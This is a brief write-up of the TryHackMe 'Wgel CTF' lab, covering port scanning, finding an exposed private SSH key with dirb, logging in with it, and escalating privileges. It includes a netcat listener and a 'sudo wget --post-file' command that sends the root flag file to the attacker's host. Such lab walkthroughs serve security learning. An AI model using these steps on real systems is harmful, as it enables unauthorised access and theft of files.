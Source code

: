 ```yaml
---
title: Wgel CTF
premalink: /wgel
---
```

# ![front](/images/wgel/front.png)
[https://tryhackme.com/room/wgelctf](https://tryhackme.com/room/wgelctf)

## Open Ports:
  - 21: ssh
  - 80: HTTP
  
## Port 80:
**Found name _Jxxxxe_ in source page of index page**
1. find sub-doamisn and directories usind **dirb**
   - ip/sitemap/.ssh **(Found a private ssh key)**
   
## Gaining Access:
 - Save the key in a text file and change mode to 600
   >chmod 600 key.txt
 - Connect to SSH using the key
   >ssh -i key.txt jxxxxe@ip
### USER Flag:
![user_flag](/images/wgel/user.png)
 

## Privilege Escalation:
 - sudo -l
    - Only user/bin/wget allowed as suoder
    - Open **netcat** port 80 on host
      >nc -lvpn 80 >flag.txt
    - In target 
      >sudo wget --post-file=/root/root_flag.txt ip_of_host
    
### Root Flag:
![rootflag.png](/images/wgel/root.png)
